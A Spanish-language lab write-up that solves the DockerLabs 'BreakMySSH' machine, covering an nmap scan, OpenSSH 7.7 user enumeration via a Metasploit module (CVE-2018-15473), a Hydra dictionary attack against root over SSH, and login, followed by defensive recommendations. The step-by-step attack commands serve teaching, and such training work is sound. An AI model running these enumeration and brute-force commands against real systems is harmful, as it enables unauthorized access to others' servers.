










# BreakMySSH - DockerLabs

> Laboratorio realizado en entorno local/controlado con fines educativos.  
> No usar estos comandos contra sistemas reales sin autorización expresa.

## Objetivo

Resolver la máquina **BreakMySSH** de DockerLabs siguiendo una metodología básica de auditoría en laboratorio:

1. Levantar la máquina vulnerable.
2. Identificar puertos y servicios expuestos.
3. Analizar el servicio SSH.
4. Enumerar usuarios válidos mediante una vulnerabilidad conocida de OpenSSH.
5. Realizar un ataque de diccionario controlado contra SSH.
6. Acceder por SSH y comprobar la evidencia final.

## Información de la práctica

| Campo | Valor |
|---|---|
| Plataforma | DockerLabs |
| Máquina | BreakMySSH |
| Entorno | Local / Docker |
| Servicio principal | SSH |
| Puerto principal | 22/tcp |
| IP de ejemplo | 172.17.0.2 |
| Técnica principal | Enumeración SSH + fuerza bruta controlada |

> La IP puede cambiar en cada despliegue. Sustituye `172.17.0.2` por la IP que muestre tu terminal.

## 1. Preparación del entorno

Nos situamos en la carpeta donde tenemos la máquina descargada y comprobamos los archivos disponibles.

```bash
cd ~/Desktop/Laboratorio/breakmyssh
ls
```



## 2. Despliegue de la máquina

Se levanta la máquina vulnerable con el script de DockerLabs.

```bash
sudo bash auto_deploy.sh breakmyssh.tar
```



El script devuelve la IP asignada a la máquina.



## 3. Reconocimiento con Nmap

Se realiza un escaneo completo de puertos TCP, detección de versiones y scripts básicos.

```bash
nmap -p- -sC -sV --open -sS -n -Pn 172.17.0.2
```

Parámetros usados:

| Parámetro | Función |
|---|---|
| `-p-` | Escanea todos los puertos TCP. |
| `-sC` | Ejecuta scripts por defecto de Nmap. |
| `-sV` | Detecta versiones de servicios. |
| `--open` | Muestra solo puertos abiertos. |
| `-sS` | Escaneo SYN. |
| `-n` | Evita resolución DNS. |
| `-Pn` | Trata el host como activo. |

Resultado principal: servicio **OpenSSH 7.7** en el puerto **22/tcp**.



## 4. Búsqueda de vulnerabilidades asociadas

Se revisan posibles vulnerabilidades públicas asociadas a la versión detectada.

```bash
searchsploit openssh 7.7
```



La versión está relacionada con técnicas de enumeración de usuarios, como la vulnerabilidad **CVE-2018-15473**.

## 5. Enumeración de usuarios con Metasploit

Se utiliza el módulo auxiliar de Metasploit para enumerar usuarios del servicio SSH.

```bash
msfconsole
use auxiliary/scanner/ssh/ssh_enumusers
show options
set RHOSTS 172.17.0.2
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
show options
run
```



La enumeración devuelve varios usuarios del sistema. El usuario más interesante para continuar es `root`.



## 6. Ataque de diccionario controlado con Hydra

Se prepara un diccionario y se realiza una prueba controlada contra SSH.

```bash
sudo apt install seclists -y

hydra -l root \
  -P /usr/share/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords-10000.txt \
  172.17.0.2 ssh -t 4
```

También se puede usar `rockyou.txt` si está disponible:

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
hydra -l root -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 4
```

Hydra identifica una credencial válida para el laboratorio.



## 7. Acceso por SSH

Con la credencial encontrada, se accede a la máquina mediante SSH.

```bash
ssh root@172.17.0.2
```



## 8. Evidencia final

Una vez dentro, se comprueba el usuario actual y se genera una evidencia de la práctica.

```bash
whoami
id
hostname
pwd
ls -la
echo "hola" > evidencia_breakmyssh.txt
```



## Problemas frecuentes

| Problema | Posible causa | Solución |
|---|---|---|
| No responde la máquina | IP incorrecta o contenedor no levantado | Revisar la IP mostrada por `auto_deploy.sh`. |
| Hydra no encuentra credenciales | Diccionario incorrecto o ruta mal escrita | Comprobar la ruta del diccionario. |
| SSH pide confirmación de clave | Primera conexión al host | Aceptar la huella si es el laboratorio correcto. |
| Metasploit no enumera usuarios | Módulo mal configurado | Revisar `RHOSTS` y `USER_FILE`. |

## Medidas defensivas

- Mantener OpenSSH actualizado.
- Deshabilitar acceso SSH directo como `root`.
- Usar autenticación por clave pública.
- Aplicar políticas de contraseñas robustas.
- Activar protección contra fuerza bruta, por ejemplo Fail2Ban.
- Monitorizar intentos fallidos de autenticación.
- Limitar el acceso SSH por red o VPN.

## Resumen final

La máquina se resuelve mediante enumeración del servicio SSH, identificación de usuarios válidos y prueba controlada de credenciales. La práctica refuerza la importancia de mantener servicios actualizados, evitar usuarios privilegiados expuestos y proteger SSH frente a ataques de diccionario.
